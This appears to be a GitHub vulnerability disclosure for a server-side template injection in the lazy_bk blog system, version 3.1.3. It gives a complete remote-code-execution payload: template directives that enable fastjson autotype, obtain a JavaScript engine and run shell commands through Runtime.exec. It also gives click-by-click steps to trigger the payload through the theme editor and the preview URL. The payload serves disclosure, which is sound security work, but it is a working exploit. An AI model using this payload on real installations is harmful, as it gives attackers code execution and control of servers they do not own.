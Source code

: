 target:https://gitee.com/linping0124/lazy_bk version: v3.1.3   
There is a serious vulnerability in the lazy_bk system. This vulnerability may lead to sensitive information leakage, code execution, GetShell, and other issues.  
There is a Server Side Template Injection vulnerability in the editing function of the theme management menu in the system.  
<img width="415" alt="image" src="https://github.com/biantaibao/lazy_bk_Sever-side-Template-injection/assets/131763503/bfbf3ed1-a6da-4a24-a23e-e9c2848224f2">  
However, there is some filtering involved, and using a regular payload will not trigger this vulnerability. We use fastJSON to assist in obtaining ScriptEngine Manager, and then execute any JavaScript code to achieve RCE. The payload is as follows:  


#set(x=com.alibaba.fastjson.parser.ParserConfig::getGlobalInstance())  
#(x.setAutoTypeSupport(true)) #(x.addAccept("javax.script.ScriptEngineManager"))   
#set(x=com.alibaba.fastjson.JSON::parse('{"@type":"javax.script.ScriptEngineManager"}'))  
#set(e=x.getEngineByName("js"))   
#(e.eval('java.lang.Runtime.getRuntime().exec("calc")'))  
base=#((java.beans.Beans::instantiate(null,"javax.script.ScriptEngineManager")).getEngineByExtension("js").eval("var s = [3];s[0] = \"/bin/bash\";  
          	s[1]=\"-c\";s[2] = \"id\";var p =java.lang.Runtime.getRuntime().exec(s);  
          	var sc = new java.util.Scanner(p.getInputStream(),\"GBK\").useDelimiter(\"\\A\");  
          	var result = sc.hasNext() ? sc.next() : \"\";sc.close();result;"))    

Click edit, then copy the payload and click save.  
<img width="415" alt="image" src="https://github.com/biantaibao/lazy_bk_Sever-side-Template-injection/assets/131763503/84516656-03d0-4c27-8750-ac2b24016f37">  
Click the preview button.   
<img width="415" alt="image" src="https://github.com/biantaibao/lazy_bk_Sever-side-Template-injection/assets/131763503/ce42948f-daeb-44ce-a98f-59f288e8a8d0">  
Visit URL:http://127.0.0.1/?previewTheme=dolphin. Successfully triggered malicious code, ejected the computer, and successfully verified the vulnerability.  
![image](https://github.com/biantaibao/lazy_bk_Sever-side-Template-injection/assets/131763503/91ded936-0b30-4cfe-9592-c4ff7f331cb2)





